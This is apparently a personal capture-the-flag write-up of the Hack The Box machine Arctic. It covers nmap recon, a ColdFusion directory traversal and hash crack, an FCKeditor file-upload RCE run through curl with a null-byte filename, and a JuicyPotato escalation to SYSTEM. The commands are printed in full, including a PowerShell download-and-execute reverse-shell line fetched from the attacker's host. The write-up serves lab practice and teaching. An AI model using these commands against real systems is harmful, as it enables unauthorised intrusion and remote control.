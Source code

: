 ```yaml
---
layout: post
title: HTB-ARCTIC(10.10.10.11)
---
```


**Note: I solved these machines when I started my career. Recently I was checking my old study materials and found this all so I am posting it as it is how I wrote earlier**

# Short brief what I did: I scanned the machine and checked for available ports and found few ports open, later further recon i found some interesting files which was the connecting steps to gain root. Enjoy! Happy Hacking!!

# nmap -sC -sV -T4 -Pn -p- -A -oA nmap/arctic 10.10.10.11
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   290.85 ms 10.10.14.1
2   290.89 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 460.94 seconds

Let’s check in the browser – 10.10.10.11:8500
Found some index files
Going inside administrator got a login page – adobe coldfusion 
So, let’s search for vuln or exploit.
#searchsploit adobe coldfusion
Found many files…so let’s choose directory travasel file – 14641.py
There a directory was given where the password of administrator was stored in hash.
So I used crackstation – password – happyday
So immediately logged in with this cred
After logging I was not able to find anything…
So later I googled about adobe coldfusion exploit found 2 exploits…first directory traversal and another is RCE….
So, in the RCE it was instructing to create a msfvenom payload and upload to directory.
Following some writeup…uploaded to directory…but the file was not showing in the browser.
This was the reason [it makes two HTTP requests. First is a POST to FCKEDITOR_DIR, which has a default value of /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm defined earlier in the script. Then it does a GET to /userfiles/file/ to trigger the payload.]

# curl -X POST -F newfile=@shell.jsp 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00'


                <script type="text/javascript">
                        window.parent.OnUploadCompleted( 202, "", "shell.jsp", "0" );
                </script>
                                                                                                                                                             
┌──(root💀kali)-[~/HTB/arctic]


There are two things I need to set to get this upload to work, and both are set in the MSF exploit. First, I can’t have the filename end in jsp. That will be filtered out. The MSF script uses .txt, so I’ll mimic that by making a copy of my payload named shell.txt. The MSF script also sets the Content-Type on the file to application/x-java-archive.

I’ll update the curl. I can adjust headers inside the form data by adding it inside the -F argument separated by ;:
# curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.

Here my file got uploaded.and as I browsed …got my file…
Opened listener – nc –lvvp 4444  (as per my msfvenom payload)
In the browser clicked the file…and got the connection back…
Got user flag…

Priv escalation

As I saw SeImpersonate enabled…I quickly ran for juicy potato….
So here are my required files for juicypotato
1.shell.bat
2.shell.ps1
3.juicypotato.exe

# ls
JuicyPotato.exe shell.bat shell.ps1 

# cat shell.bat   
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')
#shell.ps1 is a file from nishang shell – invokepowershellreversetcp.ps1 – here I will add my ip and port number

Now let’s run juicypotato

Directory of c:\Users\tolis\Downloads

04/02/2022  04:39 ��    <DIR>          .
04/02/2022  04:39 ��    <DIR>          ..
04/02/2022  04:18 ��           347.648 jp.exe
04/02/2022  04:39 ��                94 shell.bat
               2 File(s)        347.742 bytes
               2 Dir(s)   1.433.468.928 bytes free

c:\Users\tolis\Downloads>jp.exe -l 1223 -p shell.bat -t *
jp.exe -l 1223 -p shell.bat -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1223
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

# python -m SimpleHTTPServer 80                                                                                                                
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.11 - - [03/Feb/2022 10:31:55] "GET /shell.ps1 HTTP/1.1" 200 -

# nc -lvvp 1223      
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1223
Ncat: Listening on 0.0.0.0:1223
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49983.
Windows PowerShell running as user ARCTIC$ on ARCTIC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

